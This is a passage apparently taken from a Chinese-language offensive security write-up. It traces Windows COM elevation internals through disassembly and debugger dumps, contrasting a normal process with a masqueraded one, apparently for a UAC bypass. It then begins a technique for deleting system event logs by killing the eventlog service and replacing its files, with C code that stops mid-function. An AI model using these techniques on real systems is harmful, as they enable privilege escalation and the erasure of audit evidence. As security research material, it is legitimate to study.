754728ed 8bff mov edi, edi
754728ef 55 push ebp
754728f0 8bec mov ebp, esp
754728f2 83ec14 sub esp, 14h
754728f5 a1d0085e75 mov eax, dword ptr [windows_storage!__security_cookie (755e08d0)]
754728fa 33c5 xor eax, ebp
754728fc 8945fc mov dword ptr [ebp-4], eax
754728ff 8b4508 mov eax, dword ptr [ebp+8]
75472902 53 push ebx
75472903 56 push esi
75472904 8b750c mov esi, dword ptr [ebp+0Ch]
75472907 8bd9 mov ebx, ecx
75472909 57 push edi
7547290a 8975f8 mov dword ptr [ebp-8], esi
7547290d 33ff xor edi, edi
7547290f 8945f4 mov dword ptr [ebp-0Ch], eax
75472912 8db3b4030000 lea esi, [ebx+3B4h]
75472918 393e cmp dword ptr [esi], edi
7547291a 7528 jne windows_storage!CFileOperation::_RunElevatedOperation+0x57 (75472944)
7547291c 50 push eax
7547291d e826c8ffff call windows_storage!CFileOperation::_GetElevatedOperation (7546f148)
75472922 8906 mov dword ptr [esi], eax
75472924 85c0 test eax, eax
75472926 7519 jne windows_storage!CFileOperation::_RunElevatedOperation+0x54 (75472941)
75472928 8d83b8030000 lea eax, [ebx+3B8h]
7547292e 8bcb mov ecx, ebx
75472930 50 push eax
75472931 56 push esi
75472932 ff75f4 push dword ptr [ebp-0Ch]
75472935 e8e7b9ffff call windows_storage!CFileOperation::_CreateElevatedCopyengine (7546e321)
7547293a 8945f0 mov dword ptr [ebp-10h], eax
7547293d 85c0 test eax, eax
7547293f 7859 js windows_storage!CFileOperation::_RunElevatedOperation+0xad (7547299a)
75472941 8b45f4 mov eax, dword ptr [ebp-0Ch]
75472944 ff75f8 push dword ptr [ebp-8]
75472947 8bcb mov ecx, ebx
75472949 50 push eax
7547294a ff36 push dword ptr [esi]
7547294c e82ef2ffff call windows_storage!CFileOperation::_PrepElevatedOperation (75471b7f)
75472951 8945f0 mov dword ptr [ebp-10h], eax
75472954 85c0 test eax, eax
75472956 7842 js windows_storage!CFileOperation::_RunElevatedOperation+0xad (7547299a)
75472958 8b06 mov eax, dword ptr [esi]
7547295a 8bcb mov ecx, ebx
7547295c 57 push edi
7547295d 8983bc000000 mov dword ptr [ebx+0BCh], eax
75472963 e8f5ebffff call windows_storage!CFileOperation::_PerformProperElevatedOperations (7547155d)
75472968 8b0e mov ecx, dword ptr [esi]
7547296a 8945f0 mov dword ptr [ebp-10h], eax
7547296d 897df8 mov dword ptr [ebp-8], edi
75472970 8b01 mov eax, dword ptr [ecx]
75472972 8b7058 mov esi, dword ptr [eax+58h]
75472975 8d45f8 lea eax, [ebp-8]
75472978 50 push eax
75472979 51 push ecx
7547297a 8bce mov ecx, esiole32!CoGetObject:
76da4ee0 8bff mov edi, edi
76da4ee2 55 push ebp
76da4ee3 8bec mov ebp, esp
76da4ee5 83e4f8 and esp, 0FFFFFFF8h
76da4ee8 83ec24 sub esp, 24h
76da4eeb a100b4e376 mov eax, dword ptr [ole32!__security_cookie (76e3b400)]
76da4ef0 33c4 xor eax, esp
76da4ef2 89442420 mov dword ptr [esp+20h], eax
76da4ef6 8b4508 mov eax, dword ptr [ebp+8]
76da4ef9 89442404 mov dword ptr [esp+4], eax
76da4efd 8b450c mov eax, dword ptr [ebp+0Ch]
76da4f00 53 push ebx
76da4f01 56 push esi
76da4f02 8b7510 mov esi, dword ptr [ebp+10h]
76da4f05 89442408 mov dword ptr [esp+8], eax
76da4f09 8b4514 mov eax, dword ptr [ebp+14h]
76da4f0c 89442410 mov dword ptr [esp+10h], eax
76da4f10 57 push edi
76da4f11 85c0 test eax, eax
76da4f13 750a jne ole32!CoGetObject+0x3f (76da4f1f)
76da4f15 b857000780 mov eax, 80070057h
76da4f1a e9ab000000 jmp ole32!CoGetObject+0xea (76da4fca)
76da4f1f 832000 and dword ptr [eax], 0
76da4f22 8d7c241c lea edi, [esp+1Ch]
76da4f26 a5 movs dword ptr es:[edi], dword ptr [esi]
76da4f27 32c9 xor cl, cl
76da4f29 a5 movs dword ptr es:[edi], dword ptr [esi]
76da4f2a a5 movs dword ptr es:[edi], dword ptr [esi]
76da4f2b a5 movs dword ptr es:[edi], dword ptr [esi]
76da4f2c e81b020000 call ole32!CBindCtx::Create (76da514c)
76da4f31 8bd8 mov ebx, eax
76da4f33 85db test ebx, ebx
76da4f35 750a jne ole32!CoGetObject+0x61 (76da4f41)
76da4f37 bf0e000780 mov edi, 8007000Eh
76da4f3c e987000000 jmp ole32!CoGetObject+0xe8 (76da4fc8)
76da4f41 8b4c240c mov ecx, dword ptr [esp+0Ch]
76da4f45 85c9 test ecx, ecx
76da4f47 7417 je ole32!CoGetObject+0x80 (76da4f60)
76da4f49 8b03 mov eax, dword ptr [ebx]
76da4f4b 51 push ecx
76da4f4c 53 push ebx
76da4f4d 8b7018 mov esi, dword ptr [eax+18h]
76da4f50 8bce mov ecx, esi
76da4f52 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da4f58 ffd6 call esi
76da4f5a 8bf8 mov edi, eax
76da4f5c 85ff test edi, edi
76da4f5e 7858 js ole32!CoGetObject+0xd8 (76da4fb8)
76da4f60 8364240c00 and dword ptr [esp+0Ch], 0
76da4f65 8d44240c lea eax, [esp+0Ch]
76da4f69 50 push eax
76da4f6a 8d44241c lea eax, [esp+1Ch]
76da4f6e 50 push eax
76da4f6f ff742418 push dword ptr [esp+18h]
76da4f73 53 push ebx
76da4f74 e8270d0000 call ole32!MkParseDisplayName (76da5ca0)
76da4f79 8bf8 mov edi, eax
76da4f7b 85ff test edi, edi
76da4f7d 7821 js ole32!CoGetObject+0xc0 (76da4fa0)
76da4f7f ff742414 push dword ptr [esp+14h]
76da4f83 8b442410 mov eax, dword ptr [esp+10h]
76da4f87 8d4c2420 lea ecx, [esp+20h]
76da4f8b 51 push ecx
76da4f8c 6a00 push 0
76da4f8e 53 push ebx
76da4f8f 8b30 mov esi, dword ptr [eax]
76da4f91 50 push eax
76da4f92 8b4e20 mov ecx, dword ptr [esi+20h]
76da4f95 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da4f9b ff5620 call dword ptr [esi+20h]
76da4f9e 8bf8 mov edi, eax
76da4fa0 8b4c240c mov ecx, dword ptr [esp+0Ch]
76da4fa4 85c9 test ecx, ecx
76da4fa6 7410 je ole32!CoGetObject+0xd8 (76da4fb8)
76da4fa8 8b01 mov eax, dword ptr [ecx]
76da4faa 51 push ecx
76da4fab 8b7008 mov esi, dword ptr [eax+8]
76da4fae 8bce mov ecx, esi
76da4fb0 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da4fb6 ffd6 call esi
76da4fb8 8b03 mov eax, dword ptr [ebx]
76da4fba 53 push ebx
76da4fbb 8b7008 mov esi, dword ptr [eax+8]
76da4fbe 8bce mov ecx, esi
76da4fc0 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da4fc6 ffd6 call esi
76da4fc8 8bc7 mov eax, edi
76da4fca 8b4c242c mov ecx, dword ptr [esp+2Ch]
76da4fce 5f pop edi
76da4fcf 5e pop esi
76da4fd0 5b pop ebx
76da4fd1 33cc xor ecx, esp
76da4fd3 e8387a0000 call ole32!__security_check_cookie (76daca10)
76da4fd8 8be5 mov esp, ebp
76da4fda 5d pop ebp
76da4fdb c21000 ret 10h普通进程
0:000> dt BIND_OPTS3 01153c60
ole32!BIND_OPTS3
+0x000 cbStruct : 0x76d82450
+0x004 grfFlags : 1
+0x008 grfMode : 0x24
+0x00c dwTickCountDeadline : 0
+0x010 dwTrackFlags : 2
+0x014 dwClassContext : 0
+0x018 locale : 0
+0x01c pServerInfo : 0x00000015 _COSERVERINFO
+0x020 hwnd : 0x00000804 HWND__
0:000> dt BIND_OPTS3 010ff58c
ole32!BIND_OPTS3
+0x000 cbStruct : 0x24
+0x004 grfFlags : 0
+0x008 grfMode : 0
+0x00c dwTickCountDeadline : 0
+0x010 dwTrackFlags : 0
+0x014 dwClassContext : 4
+0x018 locale : 0
+0x01c pServerInfo : (null)
+0x020 hwnd : (null) 伪装进程
0:000> dt BIND_OPTS3 01043c68
ole32!BIND_OPTS3
+0x000 cbStruct : 0x76d82450
+0x004 grfFlags : 1
+0x008 grfMode : 0x24
+0x00c dwTickCountDeadline : 0
+0x010 dwTrackFlags : 2
+0x014 dwClassContext : 0
+0x018 locale : 0
+0x01c pServerInfo : 0x00000015 _COSERVERINFO
+0x020 hwnd : 0x00000804 HWND__
0:000> dt BIND_OPTS3 00f3f3ec
ole32!BIND_OPTS3
+0x000 cbStruct : 0x24
+0x004 grfFlags : 0
+0x008 grfMode : 0
+0x00c dwTickCountDeadline : 0
+0x010 dwTrackFlags : 0
+0x014 dwClassContext : 4
+0x018 locale : 0
+0x01c pServerInfo : (null)
+0x020 hwnd : (null) 下面是CoGetObject的函数原型和可能的实现：
HRESULT __stdcall CoGetObject(LPCWSTR pszDisplayName,
BIND_OPTS* pBindOptions, REFIID riid, void** ppv)
{
HRESULT hr = 0;
IBindCtx* pBindCtx = 0;
hr = CreateBindCtx(0, &pBindCtx);
ULONG chEaten;
IMoniker* pMoniker = 0;
hr = MkParseDisplayName(pBindCtx, pszDisplayName,
&chEaten, &pMoniker);
hr = pBindCtx->SetBindOptions(pBindOptions);
hr = pMoniker->BindToObject(pBindCtx, NULL, riid, ppv); // 普通进程在这个函数中进行的UAC
pMoniker->Release();
pBindCtx->Release();
return hr;
}BindToObject 汇编代码：
ole32!CCompositeMoniker::BindToObject:
76da6830 8bff mov edi, edi
76da6832 55 push ebp
76da6833 8bec mov ebp, esp
76da6835 83ec0c sub esp, 0Ch
76da6838 53 push ebx
76da6839 8b5d18 mov ebx, dword ptr [ebp+18h]
76da683c 56 push esi
76da683d 57 push edi
76da683e 85db test ebx, ebx
76da6840 0f84da010000 je ole32!CCompositeMoniker::BindToObject+0x1f0 (76da6a20)
76da6846 8b750c mov esi, dword ptr [ebp+0Ch]
76da6849 832300 and dword ptr [ebx], 0
76da684c 56 push esi
76da684d e8fefaffff call ole32!IsValidInterface (76da6350)
76da6852 85c0 test eax, eax
76da6854 0f84c6010000 je ole32!CCompositeMoniker::BindToObject+0x1f0 (76da6a20)
76da685a 8b7d10 mov edi, dword ptr [ebp+10h]
76da685d 85ff test edi, edi
76da685f 740e je ole32!CCompositeMoniker::BindToObject+0x3f (76da686f)
76da6861 57 push edi
76da6862 e8e9faffff call ole32!IsValidInterface (76da6350)
76da6867 85c0 test eax, eax
76da6869 0f84b1010000 je ole32!CCompositeMoniker::BindToObject+0x1f0 (76da6a20)
76da686f 832300 and dword ptr [ebx], 0
76da6872 8365fc00 and dword ptr [ebp-4], 0
76da6876 85ff test edi, edi
76da6878 0f85a4000000 jne ole32!CCompositeMoniker::BindToObject+0xf2 (76da6922)
76da687e 8b06 mov eax, dword ptr [esi]
76da6880 8b7820 mov edi, dword ptr [eax+20h]
76da6883 8d45f8 lea eax, [ebp-8]
76da6886 50 push eax
76da6887 56 push esi
76da6888 81ff2070da76 cmp edi, offset ole32!CBindCtx::GetRunningObjectTable (76da7020)
76da688e 7507 jne ole32!CCompositeMoniker::BindToObject+0x67 (76da6897)
76da6890 e88b070000 call ole32!CBindCtx::GetRunningObjectTable (76da7020)
76da6895 eb0a jmp ole32!CCompositeMoniker::BindToObject+0x71 (76da68a1)
76da6897 8bcf mov ecx, edi
76da6899 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da689f ffd7 call edi
76da68a1 8bf8 mov edi, eax
76da68a3 85ff test edi, edi
76da68a5 7571 jne ole32!CCompositeMoniker::BindToObject+0xe8 (76da6918)
76da68a7 8b4df8 mov ecx, dword ptr [ebp-8]
76da68aa 8b01 mov eax, dword ptr [ecx]
76da68ac 8b7018 mov esi, dword ptr [eax+18h]
76da68af 8d45f4 lea eax, [ebp-0Ch]
76da68b2 50 push eax
76da68b3 ff7508 push dword ptr [ebp+8]
76da68b6 51 push ecx
76da68b7 81fef06fda76 cmp esi, offset ole32!CRunningObjectTable::GetObjectW (76da6ff0)
76da68bd 7507 jne ole32!CCompositeMoniker::BindToObject+0x96 (76da68c6)
76da68bf e82c070000 call ole32!CRunningObjectTable::GetObjectW (76da6ff0)
76da68c4 eb0a jmp ole32!CCompositeMoniker::BindToObject+0xa0 (76da68d0)
76da68c6 8bce mov ecx, esi
76da68c8 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da68ce ffd6 call esi
76da68d0 8bf8 mov edi, eax
76da68d2 8b45f8 mov eax, dword ptr [ebp-8]
76da68d5 50 push eax
76da68d6 8b08 mov ecx, dword ptr [eax]
76da68d8 8b7108 mov esi, dword ptr [ecx+8]
76da68db 8bce mov ecx, esi
76da68dd ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da68e3 ffd6 call esi
76da68e5 85ff test edi, edi
76da68e7 7536 jne ole32!CCompositeMoniker::BindToObject+0xef (76da691f)
76da68e9 8b4df4 mov ecx, dword ptr [ebp-0Ch]
76da68ec 85c9 test ecx, ecx
76da68ee 742f je ole32!CCompositeMoniker::BindToObject+0xef (76da691f)
76da68f0 8b01 mov eax, dword ptr [ecx]
76da68f2 53 push ebx
76da68f3 ff7514 push dword ptr [ebp+14h]
76da68f6 8b30 mov esi, dword ptr [eax]
76da68f8 51 push ecx
76da68f9 8bce mov ecx, esi
76da68fb ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da6901 ffd6 call esi
76da6903 8bf8 mov edi, eax
76da6905 8b45f4 mov eax, dword ptr [ebp-0Ch]
76da6908 50 push eax
76da6909 8b08 mov ecx, dword ptr [eax]
76da690b 8b7108 mov esi, dword ptr [ecx+8]
76da690e 8bce mov ecx, esi
76da6910 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da6916 ffd6 call esi
76da6918 8bc7 mov eax, edi
76da691a e906010000 jmp ole32!CCompositeMoniker::BindToObject+0x1f5 (76da6a25)
76da691f 8b7d10 mov edi, dword ptr [ebp+10h]
76da6922 8b4d08 mov ecx, dword ptr [ebp+8]
76da6925 e803dbffff call ole32!CCompositeMoniker::AllButLast (76da442d)
76da692a 8bd8 mov ebx, eax
76da692c 85db test ebx, ebx
76da692e 7507 jne ole32!CCompositeMoniker::BindToObject+0x107 (76da6937)
76da6930 bf0e000780 mov edi, 8007000Eh
76da6935 ebe1 jmp ole32!CCompositeMoniker::BindToObject+0xe8 (76da6918)
76da6937 8b4d08 mov ecx, dword ptr [ebp+8]
76da693a e8f8dcffff call ole32!CCompositeMoniker::Last (76da4637)
76da693f 8945f4 mov dword ptr [ebp-0Ch], eax
76da6942 85c0 test eax, eax
76da6944 750a jne ole32!CCompositeMoniker::BindToObject+0x120 (76da6950)
76da6946 bf0e000780 mov edi, 8007000Eh
76da694b e98a000000 jmp ole32!CCompositeMoniker::BindToObject+0x1aa (76da69da)
76da6950 85ff test edi, edi
76da6952 7436 je ole32!CCompositeMoniker::BindToObject+0x15a (76da698a)
76da6954 8b37 mov esi, dword ptr [edi]
76da6956 8d45fc lea eax, [ebp-4]
76da6959 50 push eax
76da695a 6a00 push 0
76da695c 53 push ebx
76da695d 8b4e2c mov ecx, dword ptr [esi+2Ch]
76da6960 57 push edi
76da6961 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da6967 ff562c call dword ptr [esi+2Ch]
76da696a 8bf8 mov edi, eax
76da696c 85ff test edi, edi
76da696e 792d jns ole32!CCompositeMoniker::BindToObject+0x16d (76da699d)
76da6970 8b75f4 mov esi, dword ptr [ebp-0Ch]
76da6973 8b06 mov eax, dword ptr [esi]
76da6975 56 push esi
76da6976 8b4008 mov eax, dword ptr [eax+8]
76da6979 8945f4 mov dword ptr [ebp-0Ch], eax
76da697c 3d106dda76 cmp eax, offset ole32!CClassMoniker::Release (76da6d10)
76da6981 754c jne ole32!CCompositeMoniker::BindToObject+0x19f (76da69cf)
76da6983 e888030000 call ole32!CClassMoniker::Release (76da6d10)
76da6988 eb50 jmp ole32!CCompositeMoniker::BindToObject+0x1aa (76da69da)
76da698a 895dfc mov dword ptr [ebp-4], ebx
76da698d 8b03 mov eax, dword ptr [ebx]
76da698f 53 push ebx
76da6990 8b7004 mov esi, dword ptr [eax+4]
76da6993 8bce mov ecx, esi
76da6995 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)] # 在这里发起uac
76da699b ffd6 call esi
76da699d ff7518 push dword ptr [ebp+18h]
76da69a0 8b75f4 mov esi, dword ptr [ebp-0Ch]
76da69a3 ff7514 push dword ptr [ebp+14h]
76da69a6 ff75fc push dword ptr [ebp-4]
76da69a9 8b06 mov eax, dword ptr [esi]
76da69ab ff750c push dword ptr [ebp+0Ch]
76da69ae 56 push esi
76da69af 8b7820 mov edi, dword ptr [eax+20h]
76da69b2 81ffb054da76 cmp edi, offset ole32!CClassMoniker::BindToObject (76da54b0)
76da69b8 7509 jne ole32!CCompositeMoniker::BindToObject+0x193 (76da69c3)
76da69ba e8f1eaffff call ole32!CClassMoniker::BindToObject (76da54b0)
76da69bf 8bf8 mov edi, eax
76da69c1 ebb0 jmp ole32!CCompositeMoniker::BindToObject+0x143 (76da6973)
76da69c3 8bcf mov ecx, edi
76da69c5 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da69cb ffd7 call edi
76da69cd ebf0 jmp ole32!CCompositeMoniker::BindToObject+0x18f (76da69bf)
76da69cf 8bc8 mov ecx, eax
76da69d1 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da69d7 ff55f4 call dword ptr [ebp-0Ch]
76da69da 8b03 mov eax, dword ptr [ebx]
76da69dc 53 push ebx
76da69dd 8b7008 mov esi, dword ptr [eax+8]
76da69e0 81fe906cda76 cmp esi, offset ole32!CSessionMoniker::Release (76da6c90)
76da69e6 7507 jne ole32!CCompositeMoniker::BindToObject+0x1bf (76da69ef)
76da69e8 e8a3020000 call ole32!CSessionMoniker::Release (76da6c90)
76da69ed eb0a jmp ole32!CCompositeMoniker::BindToObject+0x1c9 (76da69f9)
76da69ef 8bce mov ecx, esi
76da69f1 ff15f4d9e376 call dword ptr [ole32!__guard_check_icall_fptr (76e3d9f4)]
76da69f7 ffd6 call esi
76da69f9 8b4dfc mov ecx, dword ptr [ebp-4]
76da69fc 85c9 test ecx, ecx
76da69fe 0f8414ffffff je ole32!CCompositeMoniker::BindToObject+0xe8 (76da6918)
76da6a04 8b01 mov eax, dword ptr [ecx]
76da6a06 51 push ecx
76da6a07 8b7008 mov esi, dword ptr [eax+8]
76da6a0a 81fe906cda76 cmp esi, offset ole32!CSessionMoniker::Release (76da6c90)
76da6a10 0f85f8feffff jne ole32!CCompositeMoniker::BindToObject+0xde (76da690e)
76da6a16 e875020000 call ole32!CSessionMoniker::Release (76da6c90)
76da6a1b e9f8feffff jmp ole32!CCompositeMoniker::BindToObject+0xe8 (76da6918)
76da6a20 b857000780 mov eax, 80070057h
76da6a25 5f pop edi
76da6a26 5e pop esi
76da6a27 5b pop ebx
76da6a28 c9 leave
76da6a29 c21400 ret 14h
76da6a2c cc int 3
76da6a2d cc int 3
76da6a2e cc int 3
76da6a2f cc int 3CComActivator::StandardCreateInstance 定义：
STDMETHODIMP CComActivator::StandardCreateInstance (REFCLSID Clsid,
IUnknown *punkOuter,
DWORD dwClsCtx,
COSERVERINFO *pServerInfo,
DWORD dwCount,
MULTI_QI *pResults)
{
// Create ActivationPropertiesIn on stack
ActivationPropertiesIn actIn;
actIn.SetNotDelete();
// Initialize Actprops with set stuff
InitializeActivation(&actIn);
return DoCreateInstance(Clsid,
punkOuter,
dwClsCtx,
pServerInfo,
dwCount,
pResults,
&actIn);
}DoCreateInstance 定义：
//--------------------------------------------------------------------
// Front end for CreateInstance
//--------------------------------------------------------------------
static inline HRESULT DoCreateInstance (REFCLSID Clsid,
IUnknown *punkOuter,
DWORD dwClsCtx,
COSERVERINFO *pServerInfo,
DWORD dwCount,
MULTI_QI *pResults,
ActivationPropertiesIn *pActIn)
{
DWORD actvFlags = GetActvFlags(dwClsCtx);
return ICoCreateInstanceEx(
Clsid,
punkOuter,
dwClsCtx,
pServerInfo,
dwCount,
actvFlags,
pResults,
pActIn);
}ICoCreateInstanceEx 定义：
//+-------------------------------------------------------------------------
//
// Function: ICoCreateInstanceEx
//
// Synopsis: Internal version of CoCreateInstance
//
//
// Arguments: [Clsid] - requested CLSID
// [pServerInfo] - server information block
// [punkOuter] - controlling unknown for aggregating
// [dwCtrl] - kind of server required
// [dwCount] - count of interfaces
// [dwActvFlags] - activation flags
// [pResults] - MULTI_QI struct of interfaces
//
// Returns: S_OK - object bound successfully
//
//
//--------------------------------------------------------------------------
INTERNAL ICoCreateInstanceEx(
REFCLSID Clsid,
IUnknown * punkOuter, // only relevant locally
DWORD dwClsCtx,
COSERVERINFO * pServerInfo,
DWORD dwCount,
DWORD dwActvFlags,
MULTI_QI * pResults,
ActivationPropertiesIn *pActIn )
{
int nRetries = 0;
Win4Assert(gAssertOnCreate && "Assertion Testing");
CLSID ConfClsid;
HRESULT hrSave = E_FAIL;
HRESULT hr = ValidateAndRemapParams(Clsid,dwClsCtx,pServerInfo,dwCount,pResults);
if ( FAILED(hr) )
{
return hr;
}
// an OLE 1.0 CLSID, in which case we get back our internal
// class factory.
IClassFactory *pcf = NULL;
if (IsInternalCLSID(Clsid, dwClsCtx, IID_IClassFactory, hr, (void **)&pcf))
{
// this is an internally implemented clsid, or an OLE 1.0 class
// so we already got the class factory (if available) and set
// the return code appropriately.
// get the interfaces
if ( SUCCEEDED(hr) && pcf )
{
hr = hrSave = CreateInprocInstanceHelper(pcf,
dwActvFlags,
punkOuter,
dwCount,
pResults);
}
}
else
{
// The class is not internal. If the CLSCTX_NO_CUSTOM_MARSHAL flag is set
// return E_ACCESSDENIED.
if ((dwClsCtx & CLSCTX_NO_CUSTOM_MARSHAL) && !IsComsvcsCLSID(Clsid)
&& !IsMarshalerCLSID(Clsid))
{
// don't allow custom marshalers that do not belong to
// com services.
return E_ACCESSDENIED;
}
// Look in our catalogs for a mapping for this clsid to a configured clsid,
// since we store configured clsids in our class caching table. Don't fail if
// we couldn't do the mapping.
hr = LookForConfiguredClsid(Clsid, ConfClsid);
if (FAILED(hr) && (hr != REGDB_E_CLASSNOTREG))
goto exit_point;
// It's OK to pass in GUID_DefaultAppPartition, since
// SearchForLoadedClass ignores COM+ classes anyway.
CClassCache::CDllClassEntry *pDCE = NULL;
ACTIVATION_PROPERTIES ap(ConfClsid,
GUID_DefaultAppPartition,
IID_IClassFactory,
ACTIVATION_PROPERTIES::fDO_NOT_LOAD,
dwClsCtx,
dwActvFlags,
0,
NULL,
(IUnknown **) &pcf);
hr = CClassCache::SearchForLoadedClass(ap, &pDCE);
if ( SUCCEEDED(hr) )
{
// Check if it's one we need to activate right here
if ((!pcf) && INTERNAL_CLSCTX(dwClsCtx))
{
// This goes to the class cache to actually lookup the DPE and
// get the factory
//
// Proxy/Stubs are never partitioned.
ACTIVATION_PROPERTIES ap(ConfClsid,
GUID_DefaultAppPartition,
IID_IClassFactory,
0,
dwClsCtx,
dwActvFlags,
0,
NULL,
(IUnknown **) &pcf);
hr = hrSave = CCGetClassObject(ap);
if (FAILED(hr))
goto exit_point;
}
if (pcf)
{
//
// an object was found get the interfaces
//
Win4Assert(!pDCE);
hr = hrSave = CreateInprocInstanceHelper(pcf,
dwActvFlags,
punkOuter,
dwCount,
pResults);
}
else
{
//
// do COM+ activation
//
// Initialize activation properties
// Allocate In on stack
IActivationPropertiesOut * pOutActivationProperties = NULL; // output
if (!pActIn)
{
pActIn=(ActivationPropertiesIn*)
_alloca(sizeof(ActivationPropertiesIn));
pActIn->ActivationPropertiesIn::ActivationPropertiesIn();
pActIn->SetNotDelete(TRUE);
}
AddHydraSessionID(pActIn);
AddPartitionID(pActIn);
AddOrigClsCtx(pActIn, dwClsCtx);
// split the array of structs into individual arrays
CSplit_QI SplitQI( hr, dwCount, pResults );
if ( FAILED(hr) )
goto exit_point;
DLL_INSTANTIATION_PROPERTIES *pdip;
IComClassInfo *pCI = NULL;
if ( pDCE )
{
pdip = (DLL_INSTANTIATION_PROPERTIES *)
_alloca(sizeof(DLL_INSTANTIATION_PROPERTIES));
pdip->_pDCE = pDCE;
pCI = pdip->_pDCE->_pClassEntry->_pCI;
if ( pCI )
{
pCI->AddRef();
}
}
else
{
pdip = NULL;
}
BOOL fRetry=FALSE, fDownloadDone = FALSE, bClassEnabled = TRUE;
DWORD relCount = 0;
do
{
if ( fRetry )
{
DWORD relCount = pActIn->Release();
Win4Assert(relCount==0);
pActIn = new ActivationPropertiesIn;
if ( pActIn == NULL )
return E_OUTOFMEMORY;
AddOrigClsCtx(pActIn, dwClsCtx);
fRetry = FALSE; // start with the assumption of termination
}
Win4Assert(pActIn != NULL);
hr = GetActivationPropertiesIn(
pActIn,
ConfClsid,
dwClsCtx,
pServerInfo,
dwCount,
SplitQI._pIIDArray,
dwActvFlags,
pdip,
pCI);
if(SUCCEEDED(hr))
{
HRESULT TempHR; //This is here because it is OK to fail and we use hr later
IComClassInfo2 *pCI2 = NULL;
if(!pCI)
{
pCI = pActIn->GetComClassInfo();
Win4Assert(pCI != NULL);
pCI->AddRef();
}
TempHR = pCI->QueryInterface(IID_IComClassInfo2, (void **)&pCI2);
if(SUCCEEDED(TempHR))
{
pCI2->IsEnabled(&bClassEnabled);
pCI2->Release();
}
}
if ( pCI )
{
pCI->Release();
pCI = NULL;
}
if ( FAILED(hr) )
{
pActIn->Release();
goto exit_point;
}
if(bClassEnabled == FALSE)
{
pActIn->Release();
hr = CO_E_CLASS_DISABLED;
goto exit_point;
}
RETRY_ACTIVATION:
IActivationStageInfo *pStageInfo = (IActivationStageInfo*) pActIn;
// Start off activation at the beginning of client context stage
hr = pStageInfo->SetStageAndIndex(CLIENT_CONTEXT_STAGE,0);
if (FAILED (hr))
{
pActIn->Release();
goto exit_point;
}
// This is the whole activation process
hr = hrSave = pActIn->DelegateCreateInstance(
punkOuter,
&pOutActivationProperties);
// If the delegated activation returns ERROR_RETRY,
// we walk the chain again, but AT MOST ONCE.
// This is to support the private activations.
if (HRESULT_FROM_WIN32(ERROR_RETRY) == hr)
{
Win4Assert(!nRetries);
if (!nRetries)
{
BOOL fEnabled = TRUE;
GetClassInfoFlags(pActIn, &fEnabled, NULL, NULL);
if (!fEnabled)
{
hr = CO_E_CLASS_DISABLED;
pActIn->Release();
goto exit_point;
}
nRetries++;
goto RETRY_ACTIVATION;
}
}
#ifdef DIRECTORY_SERVICE
if ( FAILED(hr) && !(dwClsCtx & CLSCTX_NO_CODE_DOWNLOAD) )
{
//download class if not registered locally -- but only once!
if ( (REGDB_E_CLASSNOTREG == hr) && !fDownloadDone )
{
//if successful, this will add a darwin id to the registry
hr = DownloadClass(Clsid,dwClsCtx);
fDownloadDone = fRetry = SUCCEEDED(hr);
}
if ( hr == CS_E_PACKAGE_NOTFOUND )
{
hr = REGDB_E_CLASSNOTREG;
}
}
#endif //DIRECTORY_SERVICE
} while ( fRetry );
if ( SUCCEEDED(hr) )
{
Win4Assert(pOutActivationProperties != NULL);
if (pOutActivationProperties == NULL)
{
hr = E_UNEXPECTED;
}
else
{
hr = pOutActivationProperties->GetObjectInterfaces(dwCount,
dwActvFlags,
pResults);
}
}
if ( pOutActivationProperties )
{
relCount = pOutActivationProperties->Release();
Win4Assert(relCount==0);
}
// Since doing an alloca, must release in after out
// since actout may be contained by actin for
// performance optimization
relCount = pActIn->Release();
Win4Assert(relCount==0);
if ( pDCE )
{
LOCK(CClassCache::_mxs);
pDCE->Unlock();
UNLOCK(CClassCache::_mxs);
}
}
}
}
exit_point:
if ( pcf != NULL )
{
pcf->Release();
}
//
// hrSave is the result of the entire activation chain, hr is the
// result of any work done after the activation (unmarshalling the
// interfaces, etc). If hr succeeded, then we want to update the
// MULTI_QI array with the result of the actual activation, not the
// rest. If hr failed, then we want to use it regardless of the value
// of hrSave.
//
if (SUCCEEDED(hr))
hr = hrSave;
hr = UpdateResultsArray( hr, dwCount, pResults );
return hr;
}combase!ScmRequestInfo::SetScmInfo 定义：
// Methods from IScmRequestInfo
STDMETHOD(SetScmInfo)(IN PRIV_SCM_INFO *pScmInfo)
{
freeScmInfo((PRIV_SCM_INFO *)_scmRequestInfoData.pScmInfo);
_scmRequestInfoData.pScmInfo = (CustomPrivScmInfo*)pScmInfo;
freeRemoteRequest((REMOTE_REQUEST_SCM_INFO *)_scmRequestInfoData.remoteRequest);
_scmRequestInfoData.remoteRequest = NULL;
return S_OK;
}0x07 DeleteRecordbyTerminateProces(ReplaceFile)
概述：通过替换文件的方式删除系统日志文件
步骤
- 查找 eventlog 服务进程，获取 pid
- 获取进程句柄并关闭进程
- 拷贝临时日志文件到对应的路径
主要代码
获取 eventlog 服务进程
DWORD getpid2()
{
DWORD PID = 0;
SC_HANDLE scHandle = OpenSCManager(NULL, NULL, SC_MANAGER_ENUMERATE_SERVICE);
if (scHandle == NULL)
{
printf("[!]OpenSCManager fail(%ld)", GetLastError());
}
else
{
SC_ENUM_TYPE infoLevel = SC_ENUM_PROCESS_INFO;
DWORD dwServiceType = SERVICE_WIN32;
DWORD dwServiceState = SERVICE_STATE_ALL;
LPBYTE lpServices = NULL;
DWORD cbBufSize = 0;
DWORD pcbBytesNeeded;
DWORD servicesReturned;
LPDWORD lpResumeHandle = NULL;
LPWSTR pszGroupName = NULL;
